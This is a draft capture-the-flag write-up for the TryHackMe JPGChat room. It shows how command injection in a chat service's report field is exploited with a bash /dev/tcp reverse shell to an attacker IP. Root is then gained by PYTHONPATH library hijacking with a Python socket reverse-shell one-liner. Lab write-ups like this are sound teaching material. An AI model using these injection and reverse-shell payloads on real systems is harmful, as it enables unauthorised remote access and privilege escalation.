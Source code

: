 ```yaml
---
layout: post
title: JPGChat CTF Writeup [DRAFT]
---
```


This is my first CTF Writeup, in this case for the [JPGChat room on TryHackMe](https://tryhackme.com/room/jpgchat).

## Enumeration
We first add an entry to */etc/hosts*:

```bash
echo "10.10.A.B jpgchat.thm >> /etc/hosts"
```

Nmap show only ports 22 and 3000 open.

***add nmap screenshot***

To interact with port 3000 we tried *telnet* and received the following text:

```
$ telnet jpgchat.thm 3000
Welcome to JPChat
the source code of this service can be found at our admin's github
MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel
REPORT USAGE: use [REPORT] to report someone to the admins (with proof)
```
***Mention the hint on tryhackme***

So we use *nc* now to interact:

```bash
echo "[REPORT]" | nc jpgchat.thm 3000
```

And we have some more details:

```
Welcome to JPChat
the source code of this service can be found at our admin's github
MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel
REPORT USAGE: use [REPORT] to report someone to the admins (with proof)
this report will be read by Mozzie-jpg
your name:
```

To found the repository, we went github.com and searched for users https://github.com/search?q=Mozzie-jpg&type=users

The repository is: https://github.com/Mozzie-jpg/JPChat

And looking through the code we discovered a line:

```python
os.system("bash -c 'echo %s > /opt/jpchat/logs/report.txt'" % your_name)
```

## User Flag

So what we need is to escape a bash command to get a reverse shell:

```bash
echo "[REPORT]\n username \n 0<&196;exec 196<>/dev/tcp/10.11.X.Y/4243; bash <&196 >&196 2>&196;" | nc jpgchat.thm 3000
```

***Mention about the semicolon***


Remember to have have nc listening on the specific port in your attack machine:

```bash
nc -lvnp 4243
```

Now as **wes** user, we found the user.txt flag.

## Root flag:

```bash
sudo -l:
User wes may run the following commands on ubuntu-xenial:
    (root) SETENV: NOPASSWD: /usr/bin/python3 /opt/development/test_module.py
```

So we can do library hijacking because we can use the SETENV to change the PYTHONPATH.

We check the python script first:
```bash
wes@ubuntu-xenial:~$ cat /opt/development/test_module.py
```
```python
#!/usr/bin/env python3

from compare import *

print(compare.Str('hello', 'hello', 'hello'))
```

So what we need is to create a compare.py file in a custom PYTHONPATH that will spawn a reverse shell:

```bash
cd /tmp

echo "import sys,socket,os,pty;s=socket.socket();s.connect(('10.11.X.Y',int('8042')));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn('/bin/sh')" > compare.py
```

Finally we can run this sudo command to get a root reverse shell:

```bash
sudo PYTHONPATH=/tmp/ /usr/bin/python3 /opt/development/test_module.py
```
